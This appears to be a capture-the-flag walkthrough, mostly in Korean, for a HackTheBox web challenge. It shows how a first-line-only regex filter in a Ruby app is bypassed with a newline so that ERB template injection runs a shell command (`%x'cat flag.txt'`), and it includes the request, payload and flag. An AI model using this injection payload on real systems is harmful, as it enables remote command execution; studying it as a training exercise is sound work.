




# HackTheBox Walkthrough - Room: Neonify

**Target IP**: 94.237.57.211:56108  
**Difficulty**: Medium  
**Objective**: Bypass input filtering to perform Ruby ERB template injection and capture the flag.  


---

## 🧭 Initial Analysis

### 🌐 웹 페이지 정보

- 입력 폼만 존재, 값을 입력하면 그대로 다시 출력됨
- 특수문자 입력 시 `"Malicious Input Detected"` 메시지 표시됨

---

## 🔍 소스 코드 분석  


```ruby
post '/' do
  if params[:neon] =~ /^[0-9a-z ]+$/i
    @neon = ERB.new(params[:neon]).result(binding)
  else
    @neon = "Malicious Input Detected"
  end
  erb :'index'
end
```

- `ERB.new(...).result(binding)` → **템플릿 인젝션 (RCE 가능)**
- 하지만 정규식 필터링 `/^[0-9a-z ]+$/i` 로 특수문자는 제한됨

---

## 💡 필터 우회 기법

- 정규식 `/^[0-9a-z ]+$/i` 는 첫 줄만 필터링
- `\n` (개행) 이후는 검사하지 않음 → 우회 가능

### ✅ 입력 예시

```
neon=temp
<%= 7 * 7 %>
```


---

### ✅ 필터 우회 페이로드

```text
neon=temp
<%=%x'cat flag.txt'%>
```

→ 개행(`\n`)을 통해 첫 줄은 필터 통과  
→ `ERB`는 아래 줄의 코드를 실행하게 됨

---

## 📤 HTTP 요청 예시

```http
POST / HTTP/1.1
Host: 94.237.57.211:56108
Content-Type: application/x-www-form-urlencoded

neon=temp
<%='cat flag.txt'%>
```


---

### ⚠️ 실패 이유

단순 `cat` 명령은 문자열로 처리되어 출력되며, 실행되지 않음  
→ `%x` 구문을 이용한 shell 실행 필요

---

### ✅ 최종 페이로드

```
neon=temp
<%=%x'cat flag.txt'%>
```



---

## ✅ 플래그 출력 결과

HTML 응답에서 다음과 같이 출력됨:

```html
<h1 class="glow">temp
HTB{r3pl4c3m3n7_s3cur1ty}</h1>
```

🎉 **플래그 획득 성공!**

---

## 🧠 기술 요약

| 기술                     | 설명                                                      |
|--------------------------|-----------------------------------------------------------|
| ERB Template Injection   | Ruby의 템플릿 처리 함수에 사용자 입력이 직접 전달됨           |
| 정규식 우회              | `/^[a-z0-9 ]+$/i` 필터를 개행 문자로 우회 가능                |
| Ruby Shell Execution     | `<%= %x'command' %>` 구문을 통해 시스템 명령 실행             |

---

## 🎯 최종 결과

- **플래그**: `HTB{r3pl4c3m3n7_s3cur1ty}`
- **획득 방법**: ERB Template Injection + Regex Bypass + Ruby Shell Execution

---

## 📚 참고 자료

- https://exploit-notes.hdks.org/exploit/web/framework/ruby/ruby-on-rails-pentesting/  
- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/  
- https://www.writesoftwarewell.com/call-shell-commands-in-ruby/
